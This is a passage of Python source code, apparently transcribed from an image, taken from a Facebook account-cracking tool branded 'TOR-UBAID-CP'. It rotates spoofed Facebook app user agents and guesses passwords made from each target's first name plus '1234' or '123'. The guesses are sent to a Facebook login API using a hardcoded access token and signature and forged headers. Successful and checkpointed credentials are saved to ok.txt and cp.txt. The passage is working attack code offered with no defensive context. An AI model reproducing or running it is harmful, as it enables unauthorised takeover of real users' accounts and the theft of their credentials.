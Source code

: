 		_azimua = random.choice(["Mozilla/5.0 (Linux; Android 10; Redmi Note 8 Pro Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/275.0.0.49.127;]", "[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]", "Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-J320F Build/LMY47V) [FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Tele2 LT;FBMF/samsung;FBBD/samsung;FBDV/SM-J320F;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]", "Mozilla/5.0 (Linux; Android 5.1.1; A37f Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.152 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/305.1.0.40.120;]", "Mozilla/5.0 (Linux; Android 10; REALME RMX1911 Build/NMF26F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.20.3", "Mozilla/5.0 (iPhone; CPU iPhone OS 11_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E216 [FBAN/FBIOS;FBAV/170.0.0.60.91;FBBV/105964764;FBDV/iPhone10,1;FBMD/iPhone;FBSN/iOS;FBSV/11.3;FBSS/2;FBCR/Sprint;FBID/phone;FBLC/en_US;FBOP/5;FBRV/106631002]", "Mozilla/5.0 (Linux; Android 7.1.1; ASUS Chromebook Flip C302 Build/R70-11021.56.0; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.80 Safari/537.36 [FB_IAB/FB4A;FBAV/198.0.0.53.101;]"])
		try:
			pass1 = name.lower().split(' ')[0] + '1234'
			api = 'https://b-api.facebook.com/method/auth.login'
			params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass1, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
			headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
			data = requests.get(api, params=params, headers=headers_)
			if "access_token" in data.text and "EAAA" in data.text:
				print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass1+"\033[0;97m")
				ok = open("ok.txt", "a")
				ok.write(uid+"|"+pass1+"\n")
				ok.close()
				oks.append(uid+pass1)
			else:
				if "www.facebook.com" in data.json()['error_msg']:
					print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass1+"\033[0;97m")
					cp = open("cp.txt", "a")
					cp.write(uid+"|"+pass1+"\n")
					cp.close()
					cps.append(uid+pass1)
				else:
					pass2 = name.lower().split(' ')[0] + '123'
					api = 'https://b-api.facebook.com/method/auth.login'
					params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass2, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
					headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
					data = requests.get(api, params=params, headers=headers_)
					if "access_token" in data.text and "EAAA" in data.text:
						print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass2+"\033[0;97m")
						ok = open("ok.txt", "a")
						ok.write(uid+"|"+pass2+"\n")
						ok.close()
						oks.append(uid+pass2)
					else:
						if "www.facebook.com" in data.json()['error_msg']:
							print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass2+"\033[0;97m")
							cp = open("cp.txt", "a")
							cp.write(uid+"|"+pass2+"\n")
							cp.close()
							cps.append(uid+pass2)